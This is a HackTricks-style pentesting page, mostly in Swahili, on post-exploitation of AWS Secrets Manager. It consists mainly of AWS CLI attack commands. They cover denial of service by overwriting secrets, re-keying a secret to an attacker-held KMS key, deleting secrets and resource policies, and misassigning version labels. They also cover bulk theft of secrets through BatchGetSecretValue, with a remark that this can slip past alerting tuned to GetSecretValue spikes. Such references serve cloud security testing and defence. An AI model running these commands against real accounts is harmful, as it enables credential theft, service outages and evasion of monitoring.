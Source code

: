 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Soma Secrets

The **Secrets zenyewe ni taarifa nyeti**, [angalia ukurasa wa privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) ili ujifunze jinsi ya kuvisoma.

### DoS Badilisha Thamani ya secret

Kubadilisha thamani ya secret kunaweza **kusababisha DoS kwa mifumo yote inayotegemea thamani hiyo.**

> [!WARNING]
> Kumbuka kwamba thamani za awali pia zinahifadhiwa, kwa hivyo ni rahisi kurudi tu kwenye thamani ya awali.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Iwapo mshambuliaji ana ruhusa secretsmanager:UpdateSecret, anaweza kusanidi secret itumie KMS key inayomilikiwa na mshambuliaji. Kifunguo hicho kimeanzishwa kwa njia kwamba mtu yeyote anaweza kuifikia na kuitumia, hivyo inawezekana kusasisha secret kwa kutumia key mpya. Ikiwa key haikuwa inapatikana, secret haingeweza kusasishwa.

Baada ya kubadilisha key ya secret, mshambuliaji anabadilisha usanidi wa key yao ili wao pekee waweze kuiingiza. Kwa njia hii, katika matoleo yafuatayo ya secret, itakuwa imesimbwa kwa key mpya, na kwa kuwa hakuna upatikanaji wa key hiyo, uwezo wa kupata secret utapotea.

Ni muhimu kutambua kwamba ukosefu huu wa upatikanaji utatokea tu katika matoleo ya baadaye, baada ya yaliyomo kwenye secret kubadilika, kwa sababu toleo la sasa bado limesimbwa kwa KMS key ya awali.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Kufuta Secret

Idadi ya chini ya siku za kufuta secret ni 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Ni inawezekana kurejesha secret, jambo linaloruhusu kurejesha secrets ambazo zimepangwa kufutwa, kwa kuwa kipindi cha chini cha kufuta secrets ni siku 7 na cha juu ni siku 30. Pamoja na ruhusa secretsmanager:GetSecretValue, hili linawezesha kupata yaliyomo yao.

Ili kurejesha secret ambayo iko mchakato wa kufutwa, unaweza kutumia amri ifuatayo:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Kitendo hiki kinaruhusu kufuta resource policy inayodhibiti nani anaweza kupata secret. Hii inaweza kusababisha DoS ikiwa resource policy ilipangwa kuruhusu kupata kwa kundi maalum la watumiaji.

Ili kufuta resource policy:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Hali za siri zinatumika kusimamia matoleo ya siri. AWSCURRENT inaashiria toleo la aktifu ambalo applications zinatumia, AWSPREVIOUS huhifadhi toleo la awali ili uweze kurudi nyuma ikiwa ni lazima, na AWSPENDING inatumiwa katika mchakato wa mzunguko kuandaa na kuthibitisha toleo jipya kabla ya kulitangaza kuwa toleo la sasa.

Applications kila wakati husoma toleo lenye lebo AWSCURRENT. Ikiwa mtu atahamisha lebo hiyo kwa toleo lisilo sahihi, apps zitatumia sifa za kuingia zisizo sahihi na zinaweza kushindwa.

AWSPREVIOUS haitumiki moja kwa moja. Hata hivyo, ikiwa AWSCURRENT itaondolewa au kutolewa tena kwa njia isiyo sahihi, inaweza kuonekana kwamba kila kitu bado kinaendelea kwa toleo la awali.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
### Mass Secret Exfiltration via BatchGetSecretValue (hadi 20 kwa kila mwito)

Dhulumu API ya Secrets Manager BatchGetSecretValue ili kupata hadi 20 secrets katika ombi moja. Hii inaweza kupunguza kwa kiasi kikubwa idadi ya wito za API ikilinganishwa na kurudia GetSecretValue kwa kila secret. Ikiwa filters zinatumika (tags/name), ruhusa ya ListSecrets pia inahitajika. CloudTrail bado inarekodi tukio moja la GetSecretValue kwa kila secret inayopatikana katika batch.

Ruhusa zinazohitajika
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue kwa kila secret inayolengwa
- secretsmanager:ListSecrets endapo unatumia --filters
- kms:Decrypt kwenye CMKs zinazotumika na secrets (ikiwa haujatumia aws/secretsmanager)

> [!WARNING]
> Kumbuka kwamba ruhusa `secretsmanager:BatchGetSecretValue` haitoshi kupata secrets; pia unahitaji `secretsmanager:GetSecretValue` kwa kila secret unayotaka kupata.

Exfiltrate kwa orodha wazi
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate kwa kutumia vichujio (tag key/value au name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Kushughulikia kushindwa kwa sehemu
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Athari
- Haraka “smash-and-grab” ya secrets nyingi kwa kutumia API calls chache, ambayo inaweza kupitisha alerting iliyolengwa kwa kuongezeka kwa GetSecretValue.
- CloudTrail logs bado zinajumuisha tukio moja la GetSecretValue kwa kila secret iliyopatikana na batch.
{{#include ../../../../banners/hacktricks-training.md}}
